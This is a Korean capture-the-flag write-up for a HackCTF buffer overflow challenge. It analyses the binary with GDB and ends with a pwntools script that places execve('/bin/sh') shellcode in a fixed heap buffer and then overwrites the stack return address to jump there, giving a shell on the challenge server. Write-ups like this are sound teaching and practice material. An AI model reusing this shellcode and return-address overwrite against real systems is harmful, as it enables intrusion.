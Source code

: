 ```yaml
---
title: "HackCTF 내 버퍼가 넘쳐흐른다 Write-Up"
tags: [wargame]
categories: ["System"]
---
```


# Index

1. [문제 분석](#문제-분석)
2. [GDB 분석](#gdb-분석)
3. [Exploit](#exploit)

* * *

## 문제 분석

이전 문제들과 다르게 문제의 제목을 통해서 예측하기엔 추상적인 내용을 담고 있었습니다. 프로그램을 실행해보면 두 번의 입력을 받는 것과 각각 Name, input 내용을 입력 받음을 확인할 수 있었습니다.

```
root@3218f793af99:~/hackctf/prob# ./prob1
Name : persian
input : Test
```

입력을 받고 별도의 출력값은 없었습니다. 문제의 제목을 보면 아마도 overflow 취약점은 있지 않을까 싶어 각각 입력값에 대한 overflow 조건을 확인해보기 위해 많은 값을 입력해보았습니다.

두 입력 모두 overflow가 발생하는 것을 확인하였지만 차이가 있었습니다.

1. 첫 번째 입력에서 범위 이상의 값을 입력했을 경우 두 번째 입력에서 별도로 입력받지 않고 Segmentation fault가 발생
2. 두 번째 입력에서 범위 이상의 값을 입력했을 경우에도 마찬가지로 Segmentation fault 발생

1번 결과를 더 분석해보면 첫 번째 입력에서 overflow 된 값이 두 번째 입력에도 사용되어 이때 또한 overflow가 발생하여 Segmentation fault가 발생하였을 것으로 예상되었습니다.

## GDB 분석

GDB를 이용한 분석을 진행하며 프로그램의 구조를 알 수 있었고 Exploit을 위한 payload를 구성할 수 있었습니다. 우선 첫 번째 입력의 경우 Heap 공간에, 두 번째 입력의 경우 지역 변수에 값을 저장하였습니다.

Overflow 공격에 있어서 Heap과 Stack의 가장 큰 차이점은 ret 주소를 직접 변조하는 것이 가능한지, 아닌지입니다. 첫 번째 입력의 경우 read 함수를 사용하여 50 Byte까지 입력이 가능하였으며 두 번째는 gets 함수를 이용해 제한 없이 입력이 가능하였습니다.

Heap memory 영역에 저장되는 주소가 고정되어 있다는 점을 이용하여 첫 번째 입력에서 shellcode를 삽입하고 ret 조작이 가능한 stack overflow를 통해 해당 주소로 흐름을 조작할 수 있도록 payload를 작성하였습니다.

## Exploit

최종적으로 작성한 exploit code는 다음과 같습니다.

```python
#!/usr/bin/python3

import pwn 

p = pwn.remote("ctf.j0n9hyun.xyz", 3003)
pwn.context.log_level = 'debug'

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
name = 0x804a060
padding = b"A"*24

payload = b"\x90"*10
payload += shellcode
payload += b"\x90"*5
p.sendlineafter("Name : ", payload)

payload = padding
payload += pwn.p32(name)
p.sendlineafter("input : ", payload)

p.interactive()
```

padding의 경우 main의 초반부에서 `sub esp, 0x14`를 통해 stack의 공간을 확보하는 것을 통해 0x14를 buf의 크기로 잡고 여기에 sfp 4 byte를 더해 0x18 즉, 24 byte로 구하였습니다.
